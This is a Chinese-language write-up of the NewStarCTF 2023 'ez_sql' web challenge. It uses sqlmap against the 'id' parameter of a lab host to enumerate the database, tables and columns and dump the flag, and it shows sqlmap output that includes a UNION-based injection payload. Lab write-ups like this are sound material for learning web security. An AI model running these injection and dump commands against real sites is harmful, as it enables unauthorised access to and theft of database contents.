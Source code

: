 ```yaml
---
title: NewStarCTF 2023 ez_sql
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

先看题目描述 `inject me plz.` 我从来没听过这么清晰的要求，进入靶机网页

![](https://z1.ax1x.com/2023/10/12/piST7h8.png)

随便点一个进去，直接从 URL 中找到了注入点 `id`

```
http://d2479142-812f-459e-85c0-a713c73f2e26.node4.buuoj.cn:81/?id=TMP0919
```

## SqlMap 一条龙

### 查询数据库的名称

```
sqlmap -u http://d2479142-812f-459e-85c0-a713c73f2e26.node4.buuoj.cn:81/?id=TMP5512 --current-db
```

得到数据库名 `ctf`

```
[20:06:27] [INFO] resuming back-end DBMS 'mysql'
[20:06:27] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=TMP5512' UNION ALL SELECT CONCAT(CONCAT('qjjjq','lYwffGBbRblrhAwvvNSBHmvMxoaIKlBgjUVkWAne'),'qzqkq'),NULL,NULL,NULL,NULL-- aPEZ
---
[20:06:27] [INFO] the back-end DBMS is MySQL
web application technology: OpenResty
back-end DBMS: MySQL 5 (MariaDB fork)
[20:06:27] [INFO] fetching current database
current database: 'ctf'
```

### 查询表名

如下命令中的两个 `ctf` 即刚刚查询出来的数据库名

```
sqlmap -u http://d2479142-812f-459e-85c0-a713c73f2e26.node4.buuoj.cn:81/?id=TMP5512 -D ctf -T ctf --tables
```

运行后得到表名 `here_is_flag`

```
[20:08:03] [INFO] fetching tables for database: 'ctf'
Database: ctf
[2 tables]
+--------------+
| grades       |
| here_is_flag |
+--------------+
```

### 查询字段名

如下命令中，`ctf` 为数据库名，`here_is_flag` 为表名

```
sqlmap -u http://d2479142-812f-459e-85c0-a713c73f2e26.node4.buuoj.cn:81/?id=TMP5512 -D ctf -T here_is_flag --columns
```

运行后得到字段名 `flag`

```
[20:08:38] [INFO] fetching columns for table 'here_is_flag' in database 'ctf'
Database: ctf
Table: here_is_flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(255) |
+--------+--------------+
```

### 力挽狂澜

如下命令中，`ctf` 为数据库名，`here_is_flag` 为表名，两个 `flag` 为字段名

```
sqlmap -u http://d2479142-812f-459e-85c0-a713c73f2e26.node4.buuoj.cn:81/?id=TMP5512 -D ctf -T here_is_flag -C flag, flag --dump
```

最后得到如下内容

```
[20:12:33] [INFO] fetching entries of column(s) 'flag' for table 'here_is_flag' in database 'ctf'
Database: ctf
Table: here_is_flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{dc3253bd-170c-4bd3-8f5f-eb1ada6005d0} |
+--------------------------------------------+
```

Flag 就在脸上了，`flag{dc3253bd-170c-4bd3-8f5f-eb1ada6005d0}`